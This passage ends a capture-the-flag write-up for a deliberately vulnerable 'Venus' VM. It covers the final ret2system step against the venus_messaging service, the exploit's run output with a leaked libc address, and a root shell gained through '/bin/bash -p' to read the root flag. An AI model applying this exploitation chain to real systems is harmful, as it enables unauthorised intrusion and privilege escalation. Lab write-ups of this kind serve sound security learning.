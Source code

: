 At this point we're at the start of `recv_message` again, however this time we know where libc is and we've uploaded our command into the BSS segment.  All that is left to do is `pop` that location into `rdi` and call `system` to execute our command.


### Run it

First, `ssh -L 9080:localhost:9080 magellan@your_vuln_vm`, then from a second terminal:

```bash
# ./exploit.py REMOTE=1
[*] '/mnt/hgfs/defcon.wd/datajerk/misc/venus_messaging/venus_messaging'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to localhost on port 9080: Done
[*] '/mnt/hgfs/defcon.wd/datajerk/misc/venus_messaging/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7ffff7dee000
Message sent to the Venus space station.
Enter message:
[*] Closed connection to localhost port 9080
```


### Check from vulnbox VM and get the flag

```
[magellan@venus ~]$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# ls -l
total 8
-rw-------. 1 root root  625 May 19 17:45 anaconda-ks.cfg
-rw-------. 1 root root 1225 May 21 11:41 root_flag.txt
bash-5.1# cat root_flag.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Venus!!!
If you have any feedback please contact me at SirFlash@protonmail.com
```

